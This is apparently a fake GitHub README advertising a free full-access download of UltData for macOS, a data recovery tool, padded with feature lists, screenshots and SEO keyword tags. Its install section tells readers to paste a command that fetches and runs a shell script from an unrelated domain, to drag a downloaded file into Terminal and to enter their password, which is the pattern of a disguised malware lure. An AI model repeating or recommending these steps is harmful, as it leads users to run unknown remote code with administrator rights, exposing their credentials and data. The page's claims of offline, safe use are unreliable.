 <p align="center">
  <img src="https://i.ibb.co/sv0bCRYC/1599734565-ultdata-mac.png" alt="UltData macOS Banner" />
</p>

<h1 align="center">UltData for macOS</h1>

<p align="center">
  🧩 Recover lost files, photos, videos, and iPhone data — directly on your Mac.  
  <br><br>
  ✅ Native support for Apple Silicon & Intel  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/173" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20ULTDATA%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download UltData for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/1Gg8nBh8/1599734538-1.jpg" alt="UltData Recovery Scan Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is UltData?

**UltData for macOS** is a data recovery utility that helps you retrieve deleted or lost files from your Mac, iPhone, or external storage. Whether you’ve wiped photos by mistake, lost documents after formatting, or need to recover messages from an iOS device, UltData offers full control with minimal effort.

With support for **APFS, HFS+, FAT, and exFAT**, it handles recovery from USB drives, SSDs, SD cards, and iOS backups. The interface is user-friendly and fully optimized for **Apple Silicon** chips.

---

## ✅ Why Choose UltData?

- 💾 **Recover Deleted Files, Photos & Videos**  
- 📱 **iPhone/iPad Data Recovery (Messages, WhatsApp, etc.)**  
- 🖥️ **Restore Data from Internal/External Drives**  
- 🔍 **Deep Scan & Preview Before Recovery**  
- 💡 **Supports All Major File Formats**  
- 🛡️ **No Data Overwrite During Recovery**  
- ⚙️ **macOS Native – Fast & Lightweight**  
- 🔒 **100% Offline, Private Recovery**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/0Rjp0Gxw/1599734592-2.jpg" alt="UltData File Type Selection Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/vxV47nSD/1599734569-3.jpg" alt="UltData iPhone Recovery Screenshot" />
</p>

---

## 🚀 Key Features

- Mac file recovery (documents, images, video, etc.)  
- iOS device recovery (contacts, photos, messages)  
- Supports USB, SSD, memory cards  
- Preview files before recovery  
- Restore from iTunes/iCloud backups  
- 3-step recovery process  
- Fast scan mode and deep scan  
- Fully offline — no data uploaded

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow UltData under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Data+Recovery+Tool-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-iOS+Disk+Recovery+Engine-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ UltData – Restore What Matters

Thanks for using **UltData for macOS**.  
Recover your files quickly, safely, and locally.

---

## 🧭 Usage Context

This tool is intended for private, offline recovery of deleted or lost data.  
It does not connect to cloud services or third-party sync tools.

All recovery actions are executed locally.  
Not affiliated with Apple or iCloud platforms.

---

## 🔍 Tags

```text
ultdata for mac download, ultdata mac data recovery tool, recover deleted files macos ultdata, iphone photo recovery app mac, ultdata mac restore lost messages, external drive recovery mac ultdata, usb sd card data recovery macos, best ios recovery software for mac, ultdata macos sonoma compatibility, preview before recovery tool mac, undelete files from macbook air m2, whatsapp data recovery iphone mac, full file recovery mac ultdata tool, mac lost partition recovery ultdata, tenorshare ultdata mac offline
